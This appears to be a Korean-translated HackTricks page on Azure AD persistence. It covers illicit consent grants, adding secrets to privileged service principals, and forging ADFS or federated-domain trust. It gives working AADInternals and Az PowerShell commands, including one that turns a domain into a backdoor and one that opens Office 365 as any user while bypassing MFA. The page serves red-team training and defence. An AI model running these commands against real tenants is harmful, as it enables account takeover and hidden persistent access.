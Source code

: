 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

기본적으로, 모든 사용자는 Azure AD에 애플리케이션을 등록할 수 있습니다. 따라서 관리자의 동의가 필요한 높은 영향력의 권한을 가진 애플리케이션(대상 테넌트 전용)을 등록할 수 있습니다(관리자라면 승인할 수 있음) - 예를 들어 사용자를 대신하여 메일을 보내거나, 역할 관리를 하는 등의 작업입니다. 이는 성공할 경우 매우 **결실을 맺을** 수 있는 **피싱 공격을 실행**할 수 있게 해줍니다.

게다가, 사용자가 해당 애플리케이션을 수락하여 접근을 유지할 수도 있습니다.

### Applications and Service Principals

애플리케이션 관리자, GA 또는 microsoft.directory/applications/credentials/update 권한이 있는 사용자 정의 역할의 권한으로, 기존 애플리케이션에 자격 증명(비밀 또는 인증서)을 추가할 수 있습니다.

**높은 권한을 가진 애플리케이션을 타겟팅**하거나 **높은 권한을 가진 새로운 애플리케이션을 추가**하는 것이 가능합니다.

애플리케이션에 추가할 흥미로운 역할은 **특권 인증 관리자 역할**로, 이는 전역 관리자의 **비밀번호를 재설정**할 수 있게 해줍니다.

이 기술은 또한 **MFA를 우회**할 수 있게 해줍니다.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* 인증서 기반 인증을 위한

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federation - Token Signing Certificate

**DA 권한**으로 온프레미스 AD에서 **새로운 Token signing** 및 **Token Decrypt certificates**를 생성하고 가져올 수 있습니다. 이 인증서는 매우 긴 유효 기간을 가집니다. 이를 통해 우리가 아는 ImuutableID를 가진 **모든 사용자로 로그인**할 수 있습니다.

**ADFS 서버에서 DA로** 아래 명령을 실행하여 새로운 인증서를 생성하고 (기본 비밀번호 'AADInternals'), 이를 ADFS에 추가하고, 자동 롤오버를 비활성화하고, 서비스를 재시작합니다:
```powershell
New-AADIntADFSSelfSignedCertificates
```
그런 다음 Azure AD로 인증서 정보를 업데이트합니다:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

GA 권한이 있는 테넌트에서 **새 도메인 추가** (검증되어야 함), 인증 유형을 Federated로 구성하고 도메인을 **특정 인증서** (아래 명령의 any.sts) 및 발급자를 신뢰하도록 구성할 수 있습니다:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## References

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
